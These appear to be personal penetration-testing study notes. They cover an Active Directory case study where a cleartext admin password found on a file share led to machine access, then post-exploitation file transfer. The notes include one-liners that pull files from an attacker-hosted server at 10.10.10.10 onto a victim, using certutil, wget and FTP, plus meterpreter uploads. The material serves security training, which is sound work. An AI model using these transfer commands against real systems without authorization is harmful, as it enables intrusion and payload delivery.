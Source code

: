 

#### AD Case Study 3
scenario:
- there we LLMNR on 
- but no local admin into all the machines
- => they found a lot of accounts (but not admin)

but:
- one device had access to -->  file share
  =>
  they found a -->  Macbook Pro Setup Procedure
- inside it they found in clear text -->  an "admin" account and a password
- using crackmapexec -->  they found one machine where they could access inside it
=>
lesson:
think outside the box

# Post Exploitation
we'll cover at high level
we'll see:
- information gathering
- scanning and enumeration
- exploitation

## File transfers
Usually as attacker we -->  host files
### Host a file 
navigate to the directory where you have your files that you want to be hosted:
`python3 -m http.server 80`
or
`python3 -m pyftpdlib 21`

### Retrieve a file
#### Windows
`certutil.exe -urlcache -f http://10.10.10.10/file filename_for_download`
#### Linux
`wget http://10.10.10.10/file`


<span style="background:#fff88f">If `certutil` and `wget` are not working:</span>
`python3 -m pyftpdlib 21`   -->  from the attacker
`ftp 10.10.10.10`                  -->  from the victim

### Metasploit
if you have a meterpreter shell -->  you can use the features `upload/download`
                               to download and upload a file

## Maintaining Access
During a pentest work -->  usually you don't need to persist your access
in a red team assessment:
YES

